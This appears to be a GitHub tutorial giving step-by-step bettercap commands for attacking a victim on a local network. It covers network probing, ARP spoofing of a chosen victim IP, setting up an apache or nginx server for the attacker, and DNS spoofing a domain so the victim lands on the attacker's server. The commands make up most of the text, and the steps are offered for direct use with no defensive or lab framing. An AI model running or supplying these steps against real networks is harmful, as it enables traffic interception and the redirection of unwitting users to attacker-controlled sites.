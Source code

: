
### Step 1 : Launching the Bettercap-cli

 
```bash
sudo bettercap -i <interface_name>
```

### Step 2: Listing all the devices connected to the network 


```bash
net.probe on
net.show
```

The first command will ping every IP on the network and come up with the active ones.
The second command will list the devices in a tabular format.

### Step 3: Launching the `ARP Spoofing` attack 


```bash
set arp.spoof.fullduplex true
set arp.spoof.targets <victim IP>
arp.spoof on
```

The first command will turn on the duplex mode  which will allow me to attack both the gateway and the victim(s) simultaneously.

The second command will set the target as the victim's device which will redirect  the `ARP Spoofing` attack to the victim only and will not affect other devices on the network. If the target(s) are not set, bettercap will attempt to attack the entire network.

The third option launches the attack.


### Step 4: Setting Up the Server :

Now , We will have to setup a server as the attacker to which the victim will be redirected.

```bash
sudo service apache2 start
```

The above command will start the apache2 webserver  locally on port 80.

								OR 

```bash
sudo systemctl start nginx
```

This command will start an nginx server.

Now, the attacker will have to setup a website to host on the server.
For apache :

```bash
/var/www/html
```
is the webroot.

For nginx :
```bash
/usr/share/nginx/html
```
 is the webroot.



### Step 5: Poisoning the DNS cache of the target :

The main goal here is to poison the DNS cache stored in the target's system and to map the domains of legitimate website to the attacker's IP address within the DNS cache. Now when the target's machine will try to query a website and if the website is already in the DNS cache, it will pickup the attacker's IP from the cache and make the request to the attacker controlled server.

```bash
help dns.spoof
```

This will open the help menu of the `dns.spoof` module 

```bash
set dns.spoof.domain <any-domain>
```

This will set the domain to be spoofed. if the victim visits the domain specified here, they will be redirected to the attacker's server.

```bash
set dns.spoof.address <attacker controlled server IP>
```

This will specify the IP address of the attacker controlled server to which the victim will be redirected 

```bash
dns.spoof.on
```

This will launch the `DNS Spoof Attack`

Now, when the victim visits the targeted domain in their browser, they will be redirected to the attacker's controlled server. 